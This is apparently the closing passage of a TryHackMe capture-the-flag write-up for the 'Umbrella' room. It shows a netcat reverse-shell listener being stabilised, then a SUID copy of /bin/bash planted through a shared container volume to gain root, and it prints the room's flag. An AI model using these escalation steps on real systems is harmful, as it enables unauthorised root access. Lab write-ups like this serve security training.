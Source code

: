 - stabilized the shell<br>

```bash
/usr/bin/script -qc /bin/bash /dev/null
:/logs# ^Z
[1]+  Stopped                 nc -nlvp 4444
:~/Umbrella# stty raw -echo; fg
...
nc -nlvp 4444
```

<br>

- copied the <code>/bin/bash</code> to <code>/logs</code><br>
- used <code>chmod s+u</code> to enforce group ownership<br>
- accessed it</p>

```bash
root@de0610f51845:/logs# cp /bin/bash .
root@de0610f51845:/logs# chmod u+s bash
root@de0610f51845:/logs# chmod u+s bash
```


```bash
claire-r@ip-10-10-176-69:~/timeTracker-src/logs$ ls -la
total 1220
drwxrw-rw- 2 claire-r claire-r    4096 Jun 30 23:17 .
drwxrwxr-x 6 claire-r claire-r    4096 Dec 22  2022 ..
-rwsr-xr-x 1 root     root     1234376 Jun 30 23:17 bash
-rw-r--r-- 1 root     root         635 Jun 30 23:13 tt.log
claire-r@ip-10-10-176-69:~/timeTracker-src/logs$ ./bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
THM{1e15fbe7978061c6bb1924124fd9eab2}
```

<br>
<br>

![image](https://github.com/user-attachments/assets/97605475-b8be-4504-95ba-b421f5c81d1b)

![image](https://github.com/user-attachments/assets/47f96969-5d85-4ec0-a438-1f33486ae5f3)

<br>

<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| June 30, 2025     | 420      |     170ᵗʰ    |      5ᵗʰ     |     220ᵗʰ   |     5ᵗʰ    |  111,999 |    816    |     63    |

</div>
